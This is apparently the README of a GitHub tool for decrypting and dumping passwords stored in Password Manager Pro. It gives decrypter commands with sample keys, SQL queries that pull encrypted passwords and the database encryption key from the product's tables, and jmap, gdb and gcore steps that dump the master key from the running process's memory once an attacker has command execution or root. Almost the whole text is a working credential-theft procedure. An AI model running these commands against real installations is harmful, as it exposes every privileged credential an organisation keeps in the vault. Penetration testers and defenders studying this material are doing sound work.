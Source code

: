 # PMP-tool

Some tools for decrypting/dumping Password Manager Pro passwords  

Dependencies:
 - python3
 - pycryptodome
 - pgpy (Only if you wish to decrypt database encrypted data)


## Decrypter

### Examples

Decrypt passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= --file example/decrypted_passwords.txt
```

Decrypt database-encrypted passwords from file:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --file example/passwords.txt --encrypted
```

Decrypt a single database-encrypted password:

```bash
./decrypter.py -k 7mNUUU+qQa9f6FMGRDCwllpdz/+Nf/1ahvEgj75FX/4\= -m xm6C2pZAC/yCcAxW6lQOUEgbb732ue99BjO9wu0f1tg= --password wwwECQECsR/EjgtjwlTSUQFN8qQRmKRB0manYvU++KDTurezkOX5QwcrZEMdHLdTbAm1M2qHTUmB8LE5MZ5wDxtpzBR73p02ifya3QY5nVL/0y05/CSyEl7E+BoxrUn8+g== --encrypted
```

## Dumper

TO-DO

## PostgreSQL

You can use this commands (or their MySQL equivalent) to gain some info manually

To get encrypted `DB_ENCRYPTION_KEY` (you can than decrypt it with decrypter):

```SQL
select notesdescription from Ptrx_NotesInfo where noteid = 1;
```

To retrieve encrypted passwords (no database decryption):

```SQL
select encode(password, 'base64') from ptrx_passbasedauthen;
```


To retrieve encrypted passwords:

```SQL
select decryptschar(password, <DB_ENCRYPTION_KEY>) from ptrx_passbasedauthen;
```

OR

```SQL
select pgp_sym_decrypt(password, <DB_ENCRYPTION_KEY>, 's2k-mode=1, cipher-algo=aes256') from ptrx_passbasedauthen;
```

## Memory Dump

If you can execute commands on the host, you can read the PMP key from a file `PMP/conf/pmp_key.key`. However, if the file is removed (according to the deploy instructions), you can try dumping it from memory

**0. Get WrapperSimpleApp PID**

```bash
jps | grep WrapperSimpleApp # Or find it yourself
```

**1. JMAP**

If the host have jdk installed you can simply use Jmap

```bash
jmap -dump:file=dump.dump <process-id>
```

Then analyze the dump with any java heap analyzer tool. For example - [Eclipse Memory Analyzer](https://www.eclipse.org/mat/).  
Load the dump into analyzer (`File -> load heap dump`) and follow `java.net.URLClassLoader -> list objects -> with outgoing references -> classes -> elementData -> <Find the one with class com.adventnet.passtrix.ed.PMPEncryptDecryptImpl> -> pmp32BitKey`

**2. GDB**

**Requires root privileges**

```bash
gdb --batch --pid <process-id> -ex "dump memory mem.dump 0xf5580000 0x100000000" && grep -a -m2 -E "[A-Za-z0-9\+/]{43}=" mem.dump
```

**3. GCORE**

**Requires root privileges**  
Works half of the time `-_0_0_-`

```bash
gcore -a <process-id>
grep -a -E "[A-Za-z0-9\+/]{43}=" core.*
```


